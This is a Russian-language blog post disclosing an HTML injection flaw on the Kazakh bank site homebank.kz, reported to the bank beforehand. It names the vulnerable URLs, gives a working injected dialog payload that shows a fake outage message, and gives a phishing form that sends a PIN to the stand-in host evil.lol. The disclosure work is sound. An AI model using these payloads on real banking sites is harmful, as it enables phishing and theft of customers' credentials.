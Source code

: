 ```yaml
---
layout: post
title: "Уязвимость в Казком 2 (HTML Injection)"
date: '2015-11-23T07:56:24+06:00'
categories: bank security
about: 'about.html'
---
```

Сегодня обсудим очередную уязвимость на сайте банка и как ее могут использовать мошенники. О проблеме на домене **homebank.kz** 
я сообщил банку 20 дней назад. Предыдущий пост про Казком [здесь].
<!--more-->

>**HTML Injection** (внедрение кода) - это когда пользователь может вставлять HTML тэги в веб-приложение и изменить вид страницы или добавить новые элементы. 

На главной странице Homebank есть форма для смены пароля.
![image][img0]
  
Сама форма отображается с помощью &lt;iframe&gt;, а ссылка на ресурс выглядит так:
  
>hxxps://www.homebank.kz/md5-card/index_for_hb.jsp?**url**=https://www.homebank.kz/login/join/recard.htm?join-view=1
  
Параметр **url** отображается на странице без соответствующей обработки. Мы можем вставить текст *&lt;h1&gt;* или ссылку *&lt;a&gt;*. 
Пример:
![image][img1]
  
Сайт банка блокирует такие тэги и атрибуты как *script, src, data* и т. д., поэтому мы не можем показывать всплывающее окно с помощью *alert()*. 
Однако, мы можем использовать тэг **&lt;dialog&gt;**,чтобы создать всплывающее окно без javascript (браузерная [поддержка в Казахстане] почти 55%).

Результат такой ссылки

>hxxps://www.homebank.kz/md5-card/index_for_hb.jsp?url=https://www.homebank.kz/login/join/recard.htm?join-view=1=1″/&gt;&lt;dialog open style=&ldquo;background:red;color:#fff;font-size:1.5em;&rdquo;&gt;Homebank закрыт&lt;br&gt;Позвоните завтра.&lt;br&gt;&lt;br&gt;:(&lt;/dialog&gt;&lt;!&ndash;

![image][img2]

Можно также вставить свою форму, например как:

&lt;form action=**//evil.lol**&gt;&lt;input name=“pin”&gt;&lt;/form&gt;

![image][img3]

Когда пользователь заполнит и отправит форму, мошенникам остается только посмотреть логи сервера на **evil.lol**. Там будет вся необходимая информация. 
Результат после нажатия кнопки SUBMEEET c последней картинки:

![image][img4]

В итоге уязвимы:

- hxxps://www.homebank.kz/md5-card/index_for_hb.jsp?url=https://www.homebank.kz/login/join/card.htm?join-view=1
- hxxps://www.homebank.kz/md5-card/index_for_hb.jsp?url=https://www.homebank.kz/login/join/recard.htm?join-view=1

Как мы видим, нельзя недооценивать серьезность вставки кода, особенно на сайте банка. Надеюсь, что данное утверждение на сайте Homebank больше 
не будет ошибочным.

![image][img5]

Будьте бдительнее.

[здесь]: https://caspicasoft.com/blog/2015/10/26/kazkom-html-injection-1
[поддержка в Казахстане]: http://caniuse.com/#feat=dialog
[img0]: /assets/images/{{page.slug}}/img0.png
[img1]: /assets/images/{{page.slug}}/img1.png
[img2]: /assets/images/{{page.slug}}/img2.png
[img3]: /assets/images/{{page.slug}}/img3.png
[img4]: /assets/images/{{page.slug}}/img4.png
[img5]: /assets/images/{{page.slug}}/img5.png
